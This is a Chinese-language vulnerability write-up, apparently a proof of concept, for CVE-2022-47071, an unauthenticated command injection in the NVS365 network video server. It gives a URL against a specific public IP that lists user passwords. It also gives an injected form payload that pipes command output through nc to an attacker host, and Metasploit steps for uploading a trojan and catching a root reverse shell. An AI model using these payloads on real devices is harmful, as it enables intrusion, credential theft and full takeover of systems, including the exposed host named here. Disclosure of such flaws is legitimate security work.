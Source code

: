 # NVS365网络视频服务器后台任意命令执行漏洞(CVE-2022-47071)

# 

# 该漏洞关联上一份漏洞 《NVS365网络视频服务器密码信息未授权访问漏洞》

其实也不用关联
后面发现不需要登陆也可以触发命令执行漏洞，只需要请求url和提交data就行

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

![](./images/media/image1.png){width="5.764583333333333in"
height="1.9277777777777778in"}

漏洞版本：

NVS-365-V01

![](./images/media/image2.png){width="5.764583333333333in"
height="3.66875in"}

该漏洞可任意触发任意命令，获取服务器shell等

[http://188.59.188.232:8085/?jcpcmd=userpasswd%20-act%20list](http://188.59.188.232:8085/?jcpcmd=userpasswd -act list)

![](./images/media/3.jpg){width="5.760416666666667in"
height="0.9388888888888889in"}

在网络管理这块 可直接触发RCE漏洞

![](./images/media/4.jpg){width="5.764583333333333in"
height="2.6305555555555555in"}


触发命令执行命令

Pwd:

result=%09%09&address=\|pwd\|nc ip 端口 &size=16

![lQLPJxSMXaaSNu5bzQVWsJRF7Rolhi8uA4XLQJdAZgA_1366_91](./images/media/9.jpg){width="5.7625in"
height="0.3840277777777778in"}

Uname -a

![](./images/media/10.jpg){width="5.761111111111111in"
height="3.9583333333333335in"}

Id: root权限

![](./images/media/11.jpg){width="5.758333333333334in"
height="2.7375in"}

上传shell，metasploit生成linux ram木马

![](./images/media/12.jpg){width="5.7625in"
height="3.7423611111111112in"}

Msf监听：

msf \> use exploit/multi/handler

msf \> set payload linux/armle/meterpreter/reverse_tcp

msf \> set LHOST xxx.xxx.xxx.xxx

msf \> set PORT 4466

msf \> run

![](./images/media/13.jpg){width="5.763194444444444in"
height="5.479166666666667in"}

进入shell

![](./images/media/image14.png){width="2.8645833333333335in"
height="0.875in"}

